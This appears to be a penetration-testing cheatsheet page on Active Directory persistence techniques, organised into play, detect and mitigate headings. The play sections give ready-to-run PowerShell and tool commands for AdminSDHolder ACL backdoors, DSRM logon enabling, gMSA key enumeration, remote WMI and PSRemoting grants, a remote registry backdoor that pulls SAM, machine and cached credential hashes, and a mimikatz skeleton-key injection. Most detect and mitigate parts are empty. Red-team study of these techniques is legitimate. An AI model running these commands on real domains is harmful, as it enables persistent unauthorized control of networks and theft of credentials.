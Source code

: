 ```yaml
---
layout: post
title: pen / ad / persist
category: pen
parent: cheatsheets
modified_date: 2024-11-28
permalink: /pen/ad/persist
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [adminsdholder](#adminsdholder)
* [dacl-abuse](#dacl-abuse)
* [dc-shadow](#dc-shadow)
* [dsrm](#dsrm)
* [golden-gmsa](#golden-gmsa)
* [security-descriptors](#security-descriptors)
	* [set-remoteWMI](#set-remoteWMI)
	* [set-remotePSRemoting](#set-remotePSRemoting)
	* [add-remoteRegBackdoor](#add-remoteRegBackdoor)
	* [set-remoteWMI](#set-remoteWMI-1)
	* [set-remotePSRemoting](#set-remotePSRemoting-1)
	* [add-remoteRegBackdoor](#add-remoteRegBackdoor-1)
* [skeleton-key](#skeleton-key)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='adminsdholder'></a>adminsdholder

- special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups
- roll backs the security permissions for protected accounts and group every 60 minutes, aka the Security Descriptor Propagator Update (SDProp) process.

READ MORE at [thehacker.recipes/ad/persistence/adminsdholder](https://www.thehacker.recipes/ad/persistence/adminsdholder).
READ MORE at [ired.team/abuse-adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
READ MORE AT [adsecurity.org/adminsdholder](https://adsecurity.org/?p=1906)

**play**
```powershell
# add the user to the adminsdholder group 
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# check the user has genericAll over the 'Domain Admins' group
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}

# add the user back to the 'Domain Admins' group
net group "domain admins" spotless /add /domain
```

**detect**

```powershell
# find all users with security ACLs set by SDProp using the PowerShell AD cmdlets
Import-Module ActiveDirectory
Get-ADObject -LDAPFilter “(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))” -Properties MemberOf,Created,Modified,AdminCount

# monitor the ACLs configured on the AdminSDHolder object. These should be kept at the default – it is not usually necessary to add other groups to the AdminSDHolder ACL.

# monitor users and groups with AdminCount = 1 to identify accounts with ACLs set by SDProp.

```


**mitigate**
* [iredteam / adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-play/how-to-play-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)

## <a name='dacl-abuse'></a>dacl-abuse

[acerespond / win_00_sys_sd_ace](/assets/images/win_00_sys_sd_ace.jpg)
[thehackerrecipes / ad-persist-dacl-abuse-mindmap](/assets/images/ad-persist-dacl-abuse-mindmap-thehackerrecipes.png)

READ MORE at [thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl/).
READ MORE at [thehacker.recipes/ad/persistence/dacl](https://www.thehacker.recipes/ad/persistence/dacl/).
READ MORE AT [ired.team/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

**play**
**detect**
**mitigate**

## <a name='dc-shadow'></a>dc-shadow

READ MORE at [thehacker.recipes/ad/persistence/dcshadow](https://www.thehacker.recipes/ad/persistence/dcshadow/).
READ MORE AT [ired.team/dcshadow](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

**play**
```powershell
```
**detect**
**mitigate**

## <a name='dsrm'></a>dsrm

**play**

- DSRM stands for 'Directory Services Restore Mode'
- allows remote access to the DC for the local admin accounts
- dump of local admins hash is required + activation of the feature in the **registry** 

READ MORE at [hacktricks.xyz/dsrm-credentials](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dsrm-credentials)

```powershell
# check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  
``` 

**detect**
**mitigate**

## <a name='golden-gmsa'></a>golden-gmsa

**play**

- Group Managed Service Accounts (gMSA), which are managed directly by AD, with a strong password and a regular password rotation
- password are computed based on KDS root keys + gMSA account 'msDS-ManagedPassword' attribute value
- hack implemented by [semperis/goldenGMSA](https://github.com/Semperis/GoldenGMSA) tool 

READ MORE at [thehacker.recipes/ad/persistence/goldengmsa](https://www.thehacker.recipes/ad/persistence/goldengmsa).

```powershell
# enumerate KDS root keys,  SID, RootKeyGuid, Password ID
GoldenGMSA.exe gmsainfo

# enumeration for a single gMSA
GoldenGMSA.exe gmsainfo --sid "S-1-5-21-[...]1586295871-1112"
```

**detect**
**mitigate**

- [trustedsec](https://www.trustedsec.com/blog/splunk-spl-queries-for-detecting-gmsa-attacks)

```powershell
```


## <a name='security-descriptors'></a>security-descriptors

READ MORE at [hacktricks/security-descriptors](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/security-descriptors)

### <a name='set-remoteWMI'></a>set-remoteWMI

**play**
```powershell
# grant WMI remote execution to a user
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose

# remove the grant of WMI remote execution
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose
```
**detect**
**mitigate**

### <a name='set-remotePSRemoting'></a>set-remotePSRemoting
**play**
```powershell
# grant PS remote execution to a user
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose

# remove the grant of PS remote execution
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove
```
**detect**
**mitigate**

### <a name='add-remoteRegBackdoor'></a>add-remoteRegBackdoor
**play**
```powershell
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
**detect**
**mitigate**


* [](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)

**detect**

**mitigate**

## <a name='skeleton-key'></a>skeleton-key

**play**

- hack that injects a master password into the lsass process on a DC
- enables the adversary to authenticate as any user without password
- does not persist to reboot

READ MORE at [thehacker.recipes/ad/persistence/skeleton-key](https://www.thehacker.recipes/ad/persistence/skeleton-key/).

```powershell
# execution on a DC
invoke-mimi 'misc::skeleton'
```

**detect**

**mitigate**